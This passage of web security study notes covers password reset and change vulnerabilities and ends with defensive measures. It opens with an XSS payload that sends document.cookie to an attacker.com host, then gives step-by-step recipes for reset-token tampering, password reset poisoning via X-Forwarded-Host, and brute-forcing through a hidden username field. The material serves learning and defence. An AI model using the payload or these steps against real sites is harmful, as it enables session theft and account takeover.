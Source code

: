 ```sh
<img src=x onerror=this.src='https://attacker.com/?'+document.cookie;>

###########  Resetting user passwords
# Sending passwords by email
Not secure since emails can be intercepted and accounts are synced between different devices and insecure channels
# Resetting passwords using a URL
Ideally, every reset should generate a unique URL. Below is a bad example or a guessable endpoint and parameter
http://vulnerable-website.com/reset-password?user=victim-user
# Non-guessable token is a better implementation 
http://vulnerable-website.com/reset-password?token=a0ba0d1cb3b63d13822572fcff1a241895d893f659164d4cc550b421ebdd48a8
However, some websites fail to also validate the token again when the reset form is submitted. 
Attacker could visit the reset form from their own account, delete the token, and leverage this page to reset 
an arbitrary user's password. '
EXAMPLE: Forgot password > enter our username > see an email is received > go to our email > go to reset link >
intercept reset link with data > change username to our target user to change its password for a known by us
# If URL in the reset email is generated dynamically, this may also be vulnerable to password reset poisoning.
In this case, an attacker can potentially steal another user token and use it change their password. 
EXAMPLE: Forgot password? > See if supports X-Forwarded-Host header > if so, input there our attacking server and 
replace username parameter for our target username > check server logs to find the forgot-password token of target >
proceed to get reset email of our own user > replace temp-password-token for the stolen one and send to change pwd

############ Changing user passwords
Password change function -> dangerous if attacker can access it directly without being logged in as the victim user.
For example, if user is provided in a hidden field, an attacker might edit the value and use it to enum users and bf pass
EXAMPLE: change password has username parameter > input target user, whatever current password and newpassword1 and 
newpassword2 different -> then bf current pwd to obtain it
```
{% endcode %}

## Preventing attacks on your own authentication mechanisms

* Take care with user credentials. Never send any login data over unencrypted connections. No user or email disclosed on publicly accessible profiles or reflected in HTTP responses.
* Don't count on users for security. Effective password policy. Implement a simple password checker, which allows users to experiment with passwords and provides feedback about their strength in real time.
* Prevent username enumeration. Use identical, generic error messages, same HTTP responses and indistinguishable response times.
* Bf protection. IP-based user rate limiting, CAPTCHA.
* Triple-check your verification logic.
* Don't forget supplementary functionality. Be sure not to just focus on the central login pages and overlook additional functionality related to authentication. A password reset or change is just as valid an attack surface as the main login mechanism and, consequently, must be equally as robust.
* Implement proper multi-factor authentication. Using a dedicated device or app that generates the verification code directly. Make sure logic in 2FA checks is sound.
